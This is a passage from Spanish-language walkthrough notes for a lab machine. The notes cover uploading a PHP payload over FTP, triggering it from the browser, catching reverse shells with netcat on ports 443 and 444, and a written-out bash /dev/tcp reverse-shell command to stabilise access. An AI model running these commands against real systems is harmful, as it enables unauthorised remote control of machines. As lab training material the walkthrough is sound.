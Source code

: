     `put pwned.php`
    
    ![[Imagenes/image 13 24.png|image 13 24.png]]
    
    Salimos con `exit`.
    
      
    
- Nos ponemos a la escucha con netcat
    
    ```Bash
    nc -nlvp 443 
    ```
    
    ![[Imagenes/image 14 22.png|image 14 22.png]]
    

  

- En el navegador web escribimos [http://10.0.3.21/pwned.php](http://10.0.3.21/pwned.php) para ejecutar el payload.
    
    ![[Imagenes/image 15 19.png|image 15 19.png]]
    
    ![[Imagenes/image 16 16.png|image 16 16.png]]
    

  

- Como la conexión creada con msfvenom no es muy estable vamos a estabilizarla. Vamos a la web de [https://www.revshells.com/](https://www.revshells.com/) y ponemos los datos que necesitamos para crear un código para estabilizar.  
      
    
    ![[Imagenes/image 17 13.png|image 17 13.png]]
    

  

- Nos ponemos a la escucha por el puerto 444 con netcat.
    
    ```Bash
    nc -nlvp 444 
    ```
    
    ![[Imagenes/image 18 11.png|image 18 11.png]]
    

  

- En la conexión del puerto 443 escribimos lo siguiente:
    
    `bash -c "sh -i >& /dev/tcp/10.0.3.4/444 0>&1"`
    
    ![[Imagenes/image 19 8.png|image 19 8.png]]
    
    ![[Imagenes/image 20 8.png|image 20 8.png]]
    
    Cerramos el terminal de la conexión 443 que no la vamos a necesitar.
    
      
    